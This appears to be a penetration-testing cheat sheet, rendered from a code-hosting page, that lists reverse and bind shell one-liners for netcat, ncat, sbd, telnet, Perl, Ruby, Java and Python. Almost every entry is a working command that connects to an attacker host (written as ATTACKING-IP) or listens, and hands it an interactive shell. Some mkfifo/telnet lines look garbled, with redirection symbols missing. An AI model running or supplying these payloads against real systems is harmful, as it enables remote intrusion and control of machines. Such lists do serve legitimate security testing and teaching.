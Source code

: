 ## Netcat Shells

```
nc -nvlp 5555 -e /bin/bash
nc 192.168.1.101 5555 -e /bin/bash

without -e flag
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```
* ncat is similar to nc but also supports ssl for encryption

```
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl
ncat -nv <ip_to_connect> 4444
```

## SBD shells

```
sbd -lp 4444 -k secret -e /bin/bash
sbd -k secret 127.0.0.1 4444
```

## Telnet

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

## Perl

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java

```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

## python

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

